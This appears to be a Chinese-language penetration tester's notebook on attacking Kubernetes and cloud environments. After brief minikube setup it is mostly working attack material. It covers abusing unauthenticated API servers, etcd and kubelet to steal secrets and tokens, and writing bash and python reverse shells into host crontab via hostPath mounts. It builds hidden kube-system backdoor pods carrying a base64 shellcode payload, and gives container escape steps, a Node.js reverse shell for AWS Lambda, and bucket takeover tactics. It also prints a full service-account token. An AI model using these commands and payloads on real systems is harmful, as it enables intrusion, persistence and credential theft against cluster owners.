






k8s&云原生笔记
title: k8s&云安全笔记 date: 2021-10-28 10:05:26 update: 2022年4月22日
安装&&启动
官方提供了模拟环境，但是模拟环境并不是很方便。
安装minikube
minikube用于启动cluster
先安装docker，18.09版本以上
apt install docker.io
安装minikube
curl -LO https://storage.googleapis.com/minikube/releases/latest/minikube-linux-amd64
sudo install minikube-linux-amd64 /usr/local/bin/minikube
启动minikube，启动集群
第一次启动k8s需要安装，指定阿里云镜像
minikube start --force \
--driver docker \
--registry-mirror https://\*\*\*\*\*\*\*\*.mirror.aliyuncs.com \
--image-repository=registry.cn-hangzhou.aliyuncs.com/google_containers
如安装卡住，先使用minikube delete删除旧数据
如提示docker运行权限不够，可使用强制启动
minikube start --force --driver=docker
启动nimikube后，便会自动为系统创建一个cluster
更多安装详情见https://minikube.sigs.k8s.io/docs/start/
安装kubectl
kubectl用于命令行管理集群
安装详情见https://kubernetes.io/zh/docs/tasks/tools/install-kubectl-linux/
部署应用
需要注意的是，部署镜像是从nodes里面拉的，需要将nodes机器的hosts解析改一下，不然无法拉镜像
kubectl create deployment podname --image=xx/xx
kubectl管理
集群管理
查看集群信息
kubectl cluster-info
kubectl get nodes
kubectl version

可以使用kubectl proxy命令将API代理到本地
默认本地访问
kubectl proxy
开启其他机器访问（需要授权）
kubectl proxy --address=0.0.0.0 --port=8009
开启其他机器访问（未授权访问）
kubectl proxy --address='0.0.0.0' --accept-hosts='^*$' --port=8009
PODS管理
// 获得所有节点
> kubectl -s http://1.2.3.4:8080/ get nodes
// 获得所有容器
> kubectl -s http://1.2.3.4:8080/ get pods --all-namespaces=true
// 在 myapp 容器获得一个交互式 shell
> kubectl -s http://1.2.3.4:8080/ --namespace=default exec -it myapp bash
查看pods
kubectl get pods
kubectl get pods -n kube-system

在pods上执行命令
这是直接执行
kubectl exec -ti podname whoami
kubectl exec -ti podname whoami -n kube-system

这是进入bash
kubectl exec podname bash

services管理
创建service（nodeport形式）
kubectl create service nodeport nginx --tcp 80
创建service（LoadBalancer形式）
kubectl expose deployment hello-node --type=LoadBalancer --port=8080
nodeport和LoadBalancer区别是负载
查看service
kubectl get service

查看service详情
kubectl describe services/nginx

这样就是将service映射到了master上。
图形化界面
http://127.0.0.1:46739/api/v1/namespaces/kubernetes-dashboard/services/http:kubernetes-dashboard:/proxy/#/workloads?namespace=default 
查看配置
kubectl config view

查看所有容器ip
docker inspect -f='{{.Name}} {{.NetworkSettings.IPAddress}} {{.HostConfig.PortBindings}}' $(docker ps -aq)
利用点
一些API操作
可以直接用kubectl操作
查看pods
/api/v1/namespaces/default/pods?limit=500
创建容器，跟一般的一样
/api/v1/namespaces/default/pods
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
执行命令，遇到400时使用wscat
wscat -n -c '/api/v1/namespaces/default/pods/test-4444/exec?stdout=1&stderr=1&tty=true&command=whoami'
2379端口Etcd服务利用
etcd是一个高可用的分布式键值(key-value)数据库,存储了集群状态、服务令牌等机等密服务配置等信息。
在默认情况下，访问端口可以获取到键值，其中可能包含敏感信息。
看到端口可以用etcdctl去连一下，如果是未授权访问那么就可以打下集群了。
列出节点信息
/v2/keys
列出集群中成员信息
/v2/members
列出所有值
/v2/keys/?recursive=true
v3版本的Etcd需要用etcdctl来操作
下载https://github.com/etcd-io/etcd/releases
设置v3版本api，k8s用的v3
export ETCDCTL_API=3
本地
本地无需认证
查看连接状态，远程加 --endpoint参数
etcdctl endpoint health
读取k8s secret
etcdctl get / --prefix --keys-only | grep /secrets/
读取AK
etcdctl get /registry/secrets/default/acr-credential-518dfd1883737c2a6bde99ed6fee583c
远程的情况
设置证书，等于认证，某些情况下可以搭配任意文件下载使用
export ETCDCTL_CERT=/var/lib/docker/volumes/minikube/_data/lib/minikube/certs/etcd/peer.crt
export ETCDCTL_CACERT=/var/lib/docker/volumes/minikube/_data/lib/minikube/certs/etcd/ca.crt
export ETCDCTL_KEY=/var/lib/docker/volumes/minikube/_data/lib/minikube/certs/etcd/peer.key
etcdctl --insecure-skip-tls-verify --insecure-transport=true --endpoints=https://172.16.0.112:2379 --cacert=ca.pem --key=etcd-client-key.pem --cert=etcd-client.pem endpoint health
读取token
./etcdctl --endpoints=https://192.168.253.162:2379 get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
./etcdctl --endpoints=https://192.168.253.162:2379 get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-krf7l

创建新容器挂载宿主机目录
新建一个yaml
apiVersion: v1
kind: Pod
metadata:
name: myapp
spec:
containers:
- image: k8s.gcr.io/kube-proxy:v1.22.3
name: test-container
volumeMounts:
- mountPath: /mnt
name: test-volume
volumes:
- name: test-volume
hostPath:
path: /
// 由 myapp.yaml 创建容器
> kubectl -s http://1.2.3.4:8080/ create -f myapp.yaml
// 等待容器创建完成
// 获得 myapp 的交互式 shell
> kubectl -s http://1.2.3.4:8080/ --namespace=default exec -it myapp bash
// 向 crontab 写入反弹 shell 的定时任务
> echo -e "* * * * * root bash -i >& /dev/tcp/127.0.0.1/8888 0>&1\n" >> /mnt/etc/crontab
// 也可以用 python 反弹 shell
> echo -e "* * * * * root /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" >> /mnt/etc/crontab
创建一个更隐蔽功能更强的yaml
以一个基础的为例
查看proxy的image
kubectl -n kube-system get daemonsets kube-proxy -o yaml | grep " image:" | awk '{print $2}'
查看所有的image
get pods --all-namespaces -o jsonpath="{..image}" |\ tr -s '[[:space:]]' '\n' |\ sort |\ uniq -c
apiVersion: v1
kind: Pod
metadata:
name: kube-proxy-s7dhs1 #修改为更复杂的名字更加隐蔽
namespace: kube-system #设置为system的pod更加隐蔽
spec:
tolerations:
- key: ab
operator: Exists
effect: NoSchedule
containers:
- image: k8s.gcr.io/kube-proxy:v1.22.3 #使用默认image不依赖外部image
imagePullPolicy: IfNotPresent
name: test-container
command: ["/bin/sleep", "3650d"] #创建时执行命令，可以执行任何命令
# command: ["echo $payload"] #调用环境变量
volumeMounts:
- mountPath: /mnt
name: test-volume
# env: #调用Secret作为pod环境变量
# - name: payload #环境变量名称
# valueFrom:
# secretKeyRef:
# name: secname #secret的name
# key: data #secret的dataname
volumes:
- name: test-volume
hostPath:
path: /
无文件部署
kubectl支持管道结合使用，在无文件的情况下部署pod，xx填入yaml内容
cat << EOF | kubectl apply -f -
xxxxx
EOF
传入较多数据时
先建一个Secret，可以支持多数据。Secret引用时会自动base64解码，所以传入base64的编码数据
#Secret.yaml
apiVersion: v1
kind: Secret
metadata:
name: secname
namespace: kube-system #设置为kube-system增强隐蔽性
type: Opaque #类型为这个
data:
data: XHg3Rlx4NDVceDRDXHg0Nlx4MDFceDAxXHgwMVx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4MDJceDAwXHgwM1x4MDBceDAxXHgwMFx4MDBceDAwXHg1NFx4ODBceDA0XHgwOFx4MzRceDAwXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4MzRceDAwXHgyMFx4MDBceDAxXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4MDFceDAwXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4ODBceDA0XHgwOFx4MDBceDgwXHgwNFx4MDhceENGXHgwMFx4MDBceDAwXHg0QVx4MDFceDAwXHgwMFx4MDdceDAwXHgwMFx4MDBceDAwXHgxMFx4MDBceDAwXHg2QVx4MEFceDVFXHgzMVx4REJceEY3XHhFM1x4NTNceDQzXHg1M1x4NkFceDAyXHhCMFx4NjZceDg5XHhFMVx4Q0RceDgwXHg5N1x4NUJceDY4XHhDMFx4QThceDEzXHhGM1x4NjhceDAyXHgwMFx4MTFceDVDXHg4OVx4RTFceDZBXHg2Nlx4NThceDUwXHg1MVx4NTdceDg5XHhFMVx4NDNceENEXHg4MFx4ODVceEMwXHg3OVx4MTlceDRFXHg3NFx4M0RceDY4XHhBMlx4MDBceDAwXHgwMFx4NThceDZBXHgwMFx4NkFceDA1XHg4OVx4RTNceDMxXHhDOVx4Q0RceDgwXHg4NVx4QzBceDc5XHhCRFx4RUJceDI3XHhCMlx4MDdceEI5XHgwMFx4MTBceDAwXHgwMFx4ODlceEUzXHhDMVx4RUJceDBDXHhDMVx4RTNceDBDXHhCMFx4N0RceENEXHg4MFx4ODVceEMwXHg3OFx4MTBceDVCXHg4OVx4RTFceDk5XHhCMlx4NkFceEIwXHgwM1x4Q0RceDgwXHg4NVx4QzBceDc4XHgwMlx4RkZceEUxXHhCOFx4MDFceDAwXHgwMFx4MDBceEJCXHgwMVx4MDBceDAwXHgwMFx4Q0RceDgw
通过环境变量调用

通过ReplicaSet/DaemonSet/Deplyment创建并维持后门容器
在实战中要考虑到k8s的可用性，所以最好不要对关键容器做操作。
a.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
name: nginx-deployment
labels:
app: nginx-test
spec:
replicas: 1
selector:
matchLabels:
app: nginx
template:
metadata:
labels:
app: nginx
spec:
containers:
- image: nginx
name: container
volumeMounts:
- mountPath: /mnt
name: test-volume
volumes:
- name: test-volume
hostPath:
path: /
kubectl apply -f nginx-deploy.yaml
kubectl get pods
cronjob持久化
创建一个CronJob定时执行任务的容器
a.yaml
apiVersion: batch/v1beta1
kind: CronJob
metadata:
name: echotest
spec:
schedule: "*/1 * * * *"
jobTemplate:
spec:
template:
spec:
containers:
- name: container
image: nginx
args:
- /bin/sh
- -c
- echo test
restartPolicy: OnFailure
kubectl create -f cronjob.yaml
默认namespaces是default
利用token
未开启RBAC的情况
版本低于1.16的k8s是未开启RBAC的，这时如果拿下了其中一个pod可以获取token，从而获取整个集群权限。
路径一般位于
/run/secrets/kubernetes.io/serviceaccount/token
利用
找到token后下一步是需要找到node的ip，查看当前环境变量可以找到ip。
查看token
kubectl get secrets
kubectl describe secrets default-token-ngptv

利用Token与API SERVER通信，curl或kubectl
curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/default/secrets
kubectl --insecure-skip-tls-verify -s https://192.168.49.2:8443/ --token="eyJhbGciOiJSUzI1NiIsImtpZCI6ImdHUmNpR3dQZlJvQzdsbFJ4THJhVElwSkRNNms4MmFSakt5U2ZuQmppZTQifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNjc5MTExNzk0LCJpYXQiOjE2NDc1NzU3OTQsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsInBvZCI6eyJuYW1lIjoia3ViZS1wcm94eS1zN2RoczEiLCJ1aWQiOiI2M2I4NTBjMy05ZGVlLTQ0NjctYmY2OS1mNDczYTQ1OTE3MWEifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6ImRlZmF1bHQiLCJ1aWQiOiI3Y2U4NDcwNi1hMzkwLTRlMTMtYjdjYy02ZDkwZGUxNjY0ZjIifSwid2FybmFmdGVyIjoxNjQ3NTc5NDAxfSwibmJmIjoxNjQ3NTc1Nzk0LCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06ZGVmYXVsdCJ9.La4cosGWedwVEF4QRibbvCtga0NiDNSJdpKqclAkVmoZI0zCz0dk295vRmrKaxMg_LLMO9gunqECdcKKRzGMF8kgelZC_DLrrePF2YdhIr2BCWtJQpdfZ62hx4nVydTHZZSr8zA-HMJOQY-5sfzXCbjrKHUyA4IvRNTE9oFZbTmwaa7xY9ZIOMfKhCh7laQBrKutUtZaRXGAuoRxaI4iVVFJc-oPKuQ_dzuKnZUIJMdcYR7mz8vuKt7hCal2H8nXjBO3Rakhy45tH6PBMULdrXjZswZuELKYfkYEgxgrVRM5YHXdIJFrb1ba1dkJM6ZmtfwUOnH_nT-dckJ1_pG7Iw" -n kube-system get pods
请求头中的TOKEN必须是base64格式
Service Account 可能的Tokens默认位置 /var/run/secrets/kubernetes.io/serviceaccount/token /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
6443端口匿名用户特权
https的，默认是需要授权的，如果被错误配置了匿名用户有管理权限的话可以利用。
利用方式参考8080端口的API操作
kubelet 10250未授权
主要是10250端口的未授权的攻击kubelet https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
kubelet未授权RCE漏洞利用工具https://github.com/serain/kubelet-anon-rce ，执行命令：
python3 kubelet-anon-rce.py --node 10.1.2.3 --namespace kube-system --pod tiller-797d1b1234-gb6qt --container tiller --exec "whoami"
本地测试的时候，10250 API是不允许匿名访问的
/pods
curl -k /run/{namespace}/{podName}/{appName} -d "cmd=whoami"
config管理凭据利用
Kubectl 默认的管理凭据，cat $HOME/.kube/config
使用kubectl管理其他集群，使用指定的config文件，命令：kubectl --kubeconfig kube-192.168.18.35.config get pods -n kube-system
利用污点和容忍特性来进行node间横向
k8s在默认情况下，新的pod会被随机分配到node。可以给node设置污点（Taints）以便让某node不运行pod，这里可以简单理解为防火墙中的deny all。同时，可以给pod设置容忍（tolerations）以便让该pod可以被调用，相当于开了一个acl。
当node设置了Taints后，新的pod将不能运行在一些node上，这样就限制了横向。我们可以利用这个特性来正常进行横向。
污点（Taints）的三个属性:
NoSchedule ：表示 k8s 将不会将 Pod 调度到具有该污点的 Node 上
PreferNoSchedule ：表示 k8s 将尽量避免将 Pod 调度到具有该污点的Node上
NoExecute ：表示 k8s 将不会将 Pod 调度到具有该污点的 Node 上，同时会将 Node 上已经存在的 Pod 驱逐出去
可以使用kubectl describe node nodename来查看node的Taints属性和值
└─# kubectl describe node minikube
Name: minikube
Roles: control-plane,master
Labels: beta.kubernetes.io/arch=amd64
beta.kubernetes.io/os=linux
kubernetes.io/arch=amd64
kubernetes.io/hostname=minikube
kubernetes.io/os=linux
minikube.k8s.io/commit=76b94fb3c4e8ac5062daf70d60cf03ddcc0a741b
minikube.k8s.io/name=minikube
minikube.k8s.io/updated_at=2022_03_17T02_25_37_0700
minikube.k8s.io/version=v1.24.0
node-role.kubernetes.io/control-plane=
node-role.kubernetes.io/master=
node.kubernetes.io/exclude-from-external-load-balancers=
Annotations: kubeadm.alpha.kubernetes.io/cri-socket: /var/run/dockershim.sock
node.alpha.kubernetes.io/ttl: 0
volumes.kubernetes.io/controller-managed-attach-detach: true
CreationTimestamp: Thu, 17 Mar 2022 02:25:33 -0400
Taints: ab=ab:NoSchedule
..................
Taints中:左边的是key和值，右边的是effect。key可以为空，为空时代表可以接收所有的key。
给pod配置文件设置一个tolerations值，这个值需要与node的Taints一样，表示这个pod可以接受node的污点。
apiVersion: v1
kind: Pod
metadata:
name: myapp
spec:
tolerations:
- key: ab
operator: Exists
effect: NoSchedule
containers:
- image: nginx
name: test-container
command: ["/bin/sleep", "3650d"]
volumeMounts:
- mountPath: /mnt
name: test-volume
volumes:
- name: test-volume
hostPath:
path: /
尝试多次创建pod，pod被分配到其他node上时便可以横向了。
利用lxcfs服务进行逃逸
查看是否安装了服务
cat /proc/1/mountinfo
修改lxcfs访问权限
echo a > devices.allow
获取主设备号ID
cat /proc/self/mountinfo | grep etc
3567 3437 8:1 /var/lib/docker/containers/ab86a043d48f6f45b0ee04a70bb1f193442c8c13c712347e1c5320de3d1c50b8/resolv.conf /mnt/etc/resolv.conf rw,relatime master:238 - ext4 /dev/sda1 rw,errors=remount-ro
3568 3437 8:1 /var/lib/docker/containers/ab86a043d48f6f45b0ee04a70bb1f193442c8c13c712347e1c5320de3d1c50b8/hostname /mnt/etc/hostname rw,relatime master:239 - ext4 /dev/sda1 rw,errors=remount-ro
3569 3437 8:1 /var/lib/docker/containers/ab86a043d48f6f45b0ee04a70bb1f193442c8c13c712347e1c5320de3d1c50b8/hosts /mnt/etc/hosts rw,relatime master:240 - ext4 /dev/sda1 rw,errors=remount-ro
3571 3430 8:1 /var/lib/docker/volumes/minikube/_data/lib/docker/containers/efd43944db8144aec6f7f05f07ca78a3462c9cc7d8dcd2c9aada0bf839f66518/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
3572 3430 8:1 /var/lib/docker/volumes/minikube/_data/lib/docker/containers/efd43944db8144aec6f7f05f07ca78a3462c9cc7d8dcd2c9aada0bf839f66518/hostname /etc/hostname rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
3573 3430 8:1 /var/lib/docker/volumes/minikube/_data/lib/kubelet/pods/63b850c3-9dee-4467-bf69-f473a459171a/etc-hosts /etc/hosts rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
mknod创建文件目录
mknod mknod_near b 8 1
debugfs -w mknod_near
ls
直接cdk一键执行
./cdk_linux_amd64 run lxcfs-rw
利用cgroup逃逸
当容器配置了特权时使用。
将cgroup挂载到容器
mkdir /tmp/dev
mount -t cgroup -o devices devices /tmp/dev/
修改容器的cgroup访问权限
echo a > /tmp/dev/docker/b76c0b53a9b8fb8478f680503164b37eb27c2805043fecabb450c48eaad10b57/devices.allow
mknod 创建设备文件目录
mknod near b 252 1
debugfs -w near
proc挂载逃逸
查看宿主机的文件结构
容器内执行
sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
宿主机的路径是无法打开的，且重复多次的
/var/lib/docker/overlay2/d96245cc62a8dfbf3bb325efcd37c2fc9713e37ca81ba6014afd2f5a5f91a5dd/diff

在容器内根目录创建恶意文件，对应宿主机的/var/lib/docker/overlay2/d96245cc62a8dfbf3bb325efcd37c2fc9713e37ca81ba6014afd2f5a5f91a5dd/diff路径

修改容器内core_pattern文件，也就相当于修改了宿主机proc里的文件
echo -e "|/var/lib/docker/overlay2/d96245cc62a8dfbf3bb325efcd37c2fc9713e37ca81ba6014afd2f5a5f91a5dd/diff/m.sh \rcore " > /proc/sys/kernel/core_pattern
触发容器内Segmentation fault之后便执行了恶意文件
└─# cat bengkui.c
#include <stdio.h>
int main(void)
{
int *a = NULL;
*a = 1;
return 0;
}
使用cdk直接执行命令，可以在容器根目录创建一个脚本，然后执行这个脚本。需要注意容器根目录在宿主机的路径。
./cdk run mount-procfs /proc "bash /var/lib/docker/overlay2/d96245cc62a8dfbf3bb325efcd37c2fc9713e37ca81ba6014afd2f5a5f91a5dd/diff/m.sh"
在当前最新版k8s集群中，安装后默认挂载了/proc。可以从master直接逃逸到宿主机，同理也可以用于容器逃逸到node。
kubectl version
GitVersion:v1.23.1

SYS_PTRACE逃逸
当赋予容器cap_sys_ptrace权限时，容器可以进行进程注入逃逸到宿主机。
检查权限
capsh --print
cdk遍历进程
./cdk run check-ptrace
注入so文件
https://github.com/gaffe23/linux-inject
./inject -p 79230 fantan.so
debugfs逃逸利用-比较麻烦还未测试过
https://fun0nydg.github.io/2021/06/19/The-role-of-debugfs-in-container-escape.html
CVE-2020-15257
使用cdk的shim-pwn
内核漏洞逃逸
CVE-2016-5195或CVE-2020-14386
自动化利用工具
kube-hunter
https://github.com/aquasecurity/kube-hunter

cdk
https://github.com/cdk-team/CDK
# 信息收集
cdk evaluate
# 列举全部exp
cdk run --list
# 执行指定的exp
cdk run <script-name> [options]
其他
Serverless渗透
也就是云函数，云函数有存活时间，如果有幸打到了一台云函数的机器需要立刻查看env找到AKSK，一般遇不到。
对象存储渗透
除非是找到了SecretId、SecretKey，或者桶错误配置了权限，否则无法对他人的桶进行操作。
当打开网站发现返回了一个xml结果，此时可以判断是否是桶从而进行进一步攻击尝试，自建域名下也可能是桶，因为可以绑定cname。
AWS S3
指纹
AWS的中包含BucketName字样。
爆破
根据状态码判断
InvalidBucketName 和 NoSuchBucket代表不存在
AccessDenied或者列出信息代表存在
利用
遍历文件、PUT上传文件
在桶弃用的情况下将桶加到自己的账号里面进行接管，如果此时这个桶还绑定了cname记录，那么相当于接管目标的域名。
修改桶里的资源文件以便钓鱼
读取配置以便进行访问敏感文件
修改桶的ACL
修改对象的ACL
参考：https://mp.weixin.qq.com/s/aqTnyNgTSBan_FpqfFRb7Q
阿里云OSS
和AWS S3一样
格式是xxxx.oss-cn-beijing.aliyuncs.com
根据OSS地区不同，可能需要变更城市名称
利用点和AWS差不多，命令语法略有区别
官方文档
获取OSS配置
ossutil bucket-policy oss://xxxxx --method get
修改配置
ossutil bucket-policy oss://xxxxx --method put xx.json
华为云OBS
都差不多的，格式是 xxxx.obs.cn-south-1.myhuaweicloud.com。可以直接去自己的控制台添加桶，加不到说明已存在，可以尝试进一步利用。
遇到时再读官方文档
初始化配置_对象存储服务 OBS_obsutil_快速入门_华为云
腾讯云COS
腾讯云相较安全一点，因为腾讯云的桶在生成时会在访问地址中生成一个时间戳，可以避免桶爆破和创建相同桶名接管域名的问题。
遇到时再读官方文档
对象存储 COSCLI 简介 - 工具指南 - 文档中心 - 腾讯云
微软云Blob
格式是以账号命令，xxxx.blob.core.windows.net
使用https://xxxx.blob.core.windows.net/xxxx?restype=container&comp=list列出对象
Blob（对象）存储简介 - Azure Storage | Microsoft Docs
谷歌云GCS
格式是以账号为路径https://storage.googleapis.com/xxxx
https://cloud.google.com/storage/#section-4
其他云平台
思路都一样，遇到了再去翻文档就是了。
AWS Lambda反弹shell
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(8080, "此处替换为攻击端IP", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/;
})();
敏感的端口
kube-apiserver: 6443, 8080
kubectl proxy: 8080, 8081
kubelet: 10250, 10255, 4149
dashboard: 30000
docker api: 2375
etcd: 2379, 2380
kube-controller-manager: 10252
kube-proxy: 10256, 31442
kube-scheduler: 10251
weave: 6781, 6782, 6783
kubeflow-dashboard: 8080
Kong API网关开源版
指纹
服务端返回
Server: kong/x.x.x
CVE-2020-11710
利用版本小于2.0.3，可以直接进入Kong API网关内网
usage: kong-pwn.py [-h] -u URL -s SSRF [-p PROXY]
kong-pwn.py: error: the following arguments are required: -u/--url, -s/--ssrf
$ python3 kong-pwn.py -u http://127.0.0.1:8001
[+] Service Added [+]
